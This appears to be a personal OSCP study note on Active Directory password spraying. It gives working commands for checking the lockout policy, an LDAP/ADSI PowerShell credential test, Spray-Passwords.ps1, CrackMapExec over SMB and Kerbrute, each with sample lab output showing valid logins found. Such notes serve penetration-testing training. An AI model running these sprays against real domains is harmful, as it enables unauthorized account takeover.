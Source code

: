 ```yaml
---
aliases:
  - Active Directory Password Attacks - Password Spraying
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - active_directory
  - ad
  - adds
  - password_attack
author: Mehdi N Tehrani
creat_date: 2024-01-07
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Domain Password Policy
#password_retry_policy #retry #password_retry
```cmd
net accounts

Force user logoff how long after time expires?:       Never
Minimum password age (days):                          1
Maximum password age (days):                          42
Minimum password length:                              7
Length of password history maintained:                24
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        WORKSTATION
The command completed successfully.
```
- *Lockout Observation Window* defined how often we can try `Lockout threshold` times minus 1.

# Password Spraying
#spray #password_spraying #password_spray
Does not have a very high success rate

## using LDAP and ADSI
a low and slow password attack
```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```
If the password for the user account is correct, the object creation will be successful
```
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com
```
Otherwise:
```
format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect."
    + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemException
    + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.FormatDefaultCommand
```

## Spray-Passwords.ps1
#spray_passwords_ps1 #spray_passwords
```powershell
.\Spray-Passwords.ps1 -Pass $password_string [-Admin]
```
test admin accounts by adding the `-Admin` flag.

## CrackMapExec
#crackmapexec #find_local_admin_access #admin_privileges #admin #pawned #pwn3d
Checks password against user or user list against an IP address

Drawback:
for every authentication attempt, a full SMB connection has to be set up and then terminated. As a result, this kind of password attack is very noisy due to the generated network traffic. It is also quite slow in comparison to other techniques.
```sh
crackmapexec smb $target_ip -u $user_list -p $pass_str -d $domain --continue-on-success
```
Output
```
SMB         192.168.201.75  445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.201.75  445    CLIENT75         [-] corp.com\jeff:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.201.75  445    CLIENT75         [+] corp.com\pete:Nexus123! 
SMB         192.168.201.75  445    CLIENT75         [-] corp.com\stephanie:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.201.75  445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.201.75  445    CLIENT75         [+] corp.com\jen:Nexus123! 

```
if user has admin access to the device, it shows `(Pwn3d!)` next to the success output

## Kerbrute
#kerbrute
Make sure the user list file is encoded in `ascii` or `UTF-8`
```cmd
kerbrute_windows_amd64.exe passwordspray -d %domain% %user_list_path% %password%
```
Output
```
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 01/06/24 - Ronnie Flathers @ropnop

2024/01/06 19:53:07 >  Using KDC(s):
2024/01/06 19:53:07 >   dc1.corp.com:88
2024/01/06 19:53:07 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2024/01/06 19:53:07 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2024/01/06 19:53:07 >  Done! Tested 6 logins (2 successes) in 0.028 seconds
```